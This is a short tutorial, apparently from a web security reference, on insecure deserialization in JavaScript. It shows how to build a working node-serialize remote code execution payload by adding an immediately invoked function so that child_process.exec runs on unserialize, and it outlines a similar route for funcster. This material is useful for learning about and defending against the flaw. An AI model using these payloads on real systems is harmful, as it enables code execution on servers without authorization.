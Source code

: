Deserialization
========================================

Introduction
----------------------------------------
JavaScript itself does not have a deserialization implementation, but some libraries such as node-serialize, serialize-to-js, etc. support the deserialization function. These libraries usually use JSON to store data, but unlike native functions JSON.parse and JSON.stringify, these libraries support deserialization of any object, especially functions. If used improperly, deserialization problems may occur.

Payload construct
----------------------------------------
Here is the simplest example, first obtain the serialized output

.. code-block:: javascript

var y = {
rce : function(){
require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: 
" + serialize.serialize(y));

After execution above, it will return

.. code-block:: javascript

{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}"}

However, this payload will not be executed after deserialization, but it supports Immediately Invoked Function Expression in JS, such as ``(function () { /* code */ } ());` ` This will execute the code in the function. Then you can use this method to modify the serialized string to complete a deserialization. The final payload test is as follows:


.. code-block:: javascript

var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);


Payload Construct II
----------------------------------------
The above mentioned is the construction method of deserialization libraries such as node-serialize. There is also a type of library such as funcster, which is executed using the method of directly splicing string constructors.

.. code-block:: javascript

return "module.exports=(function(module,exports){return{" + entries + "};})();";

This way, the payload can be constructed using the corresponding closure.
